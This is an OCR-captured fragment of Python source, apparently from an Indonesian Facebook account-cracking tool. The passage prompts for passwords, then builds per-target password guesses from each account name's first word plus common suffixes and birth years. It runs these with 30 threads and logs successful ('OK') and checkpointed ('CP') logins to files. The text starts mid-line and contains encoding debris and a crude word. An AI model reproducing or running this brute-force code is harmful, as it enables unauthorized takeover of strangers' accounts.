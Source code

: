 kakak,ngentod,adik[white] '))  pwku=input('>> Masukkan Password : ')  pwkuh=pwku.split(',')  for xpw in pwkuh:   pwnya.append(xpw) else:  pwpluss.append('no') passwrd()#-------------------[ BAGIAN-WORDLIST ]------------#def passwrd(): print(f'>>>>> {m}â€¢{k}â€¢{h}â€¢{x} Sedang Menggeser Matahari {m}â€¢{k}â€¢{h}â€¢{x} <<<<< ') print('') print(f'>> Hasil {h}OK{x} Tersimpan Di : {h}ibo/%s {x}'%(okc)) print(f'>> Hasil {k}CP{x} Tersimpan Di : {k}ibo/%s {x}'%(cpc)) print(f'>> LA HAR 1K ID AIRPLANE BKARA ISH {m}1k{x} Idz\n') with tred(max_workers=30) as pool:  for yuzong in id2:   idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()   frs = nmf.split(' ')[0]   pwv =[]   if len(nmf)<6:    if len(frs)<3:     pass    else:     pwv.append(frs+'123')     pwv.append(frs+'1234')     pwv.append(frs+'12345')     pwv.append(frs+'12345678')     pwv.append(frs+'123456789')     pwv.append(frs+'1122')     pwv.append(frs+'2022')     pwv.append(frs+'ibo123')     pwv.append(frs+'2004')     pwv.append(frs+'2002')     pwv.append(frs+'1122334455')     pwv.append(frs+'123456')     pwv.append(frs+'1996')     pwv.append(frs+'1998')     pwv.append(frs+'1997')     pwv.append(frs+'1995')     pwv.append(frs+'2000')     pwv.append(frs+'12')     pwv.append(frs+'1212')   else:    if